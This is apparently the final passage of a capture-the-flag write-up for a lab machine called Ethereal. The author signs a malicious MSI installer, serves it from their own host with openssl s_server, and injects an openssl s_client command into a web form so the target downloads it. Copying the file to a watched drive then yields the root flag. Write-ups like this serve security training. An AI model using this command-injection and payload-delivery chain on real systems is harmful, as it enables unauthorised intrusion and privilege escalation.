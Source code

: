 ```bash
Successfully signed and timestamped: \Users\pswapnil\Desktop\ethereal\ethereal.msi

Number of files successfully Signed: 1
Number of warnings: 0
Number of errors: 0
```

Let's copy the msi to the system using `openssl s_server -quiet -key key.pem -cert cert.pem -port 73 < ethereal.msi` and run `& c:\progra~2\openssl-v1.1.0\bin\openssl.exe s_client -quiet -connect <myip>:73 > c:\users\public\desktop\shortcuts\ethereal.msi` on the web form.

```bash
C:\Users\jorge\Documents>cd c:\users\public\desktop\shortcuts
C:\Users\Public\Desktop\Shortcuts>copy /y ethereal.msi d:\DEV\MSIs
```

After copying the msi to the `D:` drive, I got the root.txt a few seconds later.

```bash
C:\Users\Public\Desktop\Shortcuts>type getmeroot.txt
1******************************f
```

Finally! So much to do in this box. A great experience nonetheless.

Happy Hacking! Cheers!
